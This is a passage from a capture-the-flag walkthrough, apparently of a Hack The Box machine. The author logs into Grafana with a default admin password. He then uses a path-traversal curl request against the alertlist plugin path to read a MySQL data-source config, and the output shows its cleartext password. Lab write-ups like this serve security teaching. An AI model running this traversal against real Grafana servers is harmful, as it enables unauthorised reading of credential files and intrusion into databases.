 
What’s left is just the password, meaning it’s the only non-default line in
the config.

#### Log In

With that default admin password, I can log into Grafana as the admin user:

[![image-20220913105217755](https://0xdfimages.gitlab.io/img/image-20220913105217755.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20220913105217755.png)

### Database Access

#### Enumerate Grafana

Looking around in the Settings, there is a data source listed:

[![image-20220913111226411](https://0xdfimages.gitlab.io/img/image-20220913111226411.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20220913111226411.png)

Clicking on it, it’s named `mysql.yaml`, and defines a MySQL connection:

[![image-20220913111412334](https://0xdfimages.gitlab.io/img/image-20220913111412334.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20220913111412334.png)

It says this is added by a config file and can’t be modified in the UI.

#### Get mysql.yaml

The config file for this data source will likely have the creds for MySQL in
it. The [Grafana
docs](https://grafana.com/docs/grafana/latest/administration/provisioning/#data-
sources) show that these configs live in
`/etc/grafana/provisioning/datasources`.

I’ll get the file with the file read vuln:

    
    
    oxdf@hacky$ curl --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../etc/grafana/provisioning/datasources/mysql.yaml
    apiVersion: 1
    
    datasources:
     - name: mysql.yaml 
       type: mysql
       host: localhost
       database: grafana
       user: grafana
       password: dontStandSoCloseToMe63221!
       editable: false
    

#### Connect to MySQL
